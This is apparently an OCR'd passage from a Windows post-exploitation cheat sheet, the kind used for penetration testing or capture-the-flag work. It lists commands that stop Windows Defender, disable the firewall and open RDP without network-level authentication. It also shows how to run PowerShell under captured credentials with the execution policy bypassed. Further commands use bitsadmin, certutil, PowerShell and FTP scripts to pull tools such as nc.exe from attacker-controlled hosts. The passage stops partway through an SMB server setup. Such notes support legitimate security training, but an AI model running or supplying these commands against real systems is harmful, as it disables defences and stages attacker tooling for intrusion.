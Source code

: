 ```cmd

sc stop WinDefend
netsh advfirewall show allprofiles
netsh advfirewall set allprofiles state off
netsh firewall set opmode disable
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
```
### Powershell sudo for Windows
```bash
$pw= convertto-securestring "EnterPasswordHere" -asplaintext -force
$pp = new-object -typename System.Management.Automation.PSCredential -argumentlist "EnterDomainName\EnterUserName",$pw
$script = "C:\Users\EnterUserName\AppData\Local\Temp\test.bat"
Start-Process powershell -Credential $pp -ArgumentList '-noprofile -command &{Start-Process $script -verb Runas}'

powershell -ExecutionPolicy Bypass -File xyz.ps1
```
### Windows download with bitsadmin
```cmd
bitsadmin /transfer mydownloadjob /download /priority normal http://<attacker>/nc.exe C:\\Users\\%USERNAME%\\AppData\\local\\temp\\nc.exe
```
### Windows download with certutil.exe
```bash
certutil.exe -urlcache -split -f "http://<attacker>/Powerless.bat" Powerless.bat
```
### Windows download with powershell
```bash
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.1.111/file.exe','C:\Users\user\Desktop\file.exe')"

(New-Object System.Net.WebClient).DownloadFile("http://10.11.1.111/CLSID.list","C:\Users\Public\CLSID.list")
```
### Windows Download from FTP
```bash
# In reverse shell
echo open $IP > ftp.txt
echo USER anonymous >> ftp.txt
echo ftp >> ftp.txt 
echo bin >> ftp.txt
echo GET file >> ftp.txt
echo bye >> ftp.txt

# Execute
ftp -v -n -s:ftp.txt
```
### Windows create SMB Server transfer files
```bash
# Attack machine
python /usr/share/doc/python-impacket/examples/smbserver.py 

	# Or SMB service 
	# http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html
	vim /etc/samba/smb.conf
		[global]
```